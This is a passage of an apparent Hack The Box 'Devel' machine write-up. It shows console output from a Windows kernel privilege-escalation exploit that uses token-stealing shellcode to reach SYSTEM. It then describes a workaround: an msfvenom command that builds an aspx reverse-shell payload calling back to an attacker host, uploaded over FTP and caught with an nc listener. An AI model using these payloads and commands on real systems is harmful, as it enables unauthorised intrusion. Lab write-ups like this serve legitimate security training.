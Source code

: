 ```shell
      [*] Address:      0x82800000                                                                                                                                                                                                
      [*] Offset:       0x008b0000
      [+] HalDispatchTable
         [*] Offset:    0x009d93b8
   [+] NtQueryIntervalProfile
      [*] Address:      0x76df5510
   [+] ZwDeviceIoControlFile
      [*] Address:      0x76df4ca0
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [+] Done
      [*] Elevating privileges to SYSTEM
         [+] Done
         [*] Spawning shell

[*] Exiting SYSTEM shell
```

After numerous failed attempts I decided to switch and get a shell on `cmd.exe`

### Workaround

I generated an `aspx` payload using `msfvemom` then uploaded it via `FTP`. Visited the page and I got my shell back

```
┌─[✗]─[george@parrot]─[~/HTB/boxes/devel]
└──╼ $ msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.7 LPORT=9001 -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2730 bytes
Saved as: rev.aspx

┌─[george@parrot]─[~/HTB/boxes/devel]
└──╼ $ rlwrap nc -lvnp 9001                                                                                                                                                                                                     
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.5] 49173
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

```
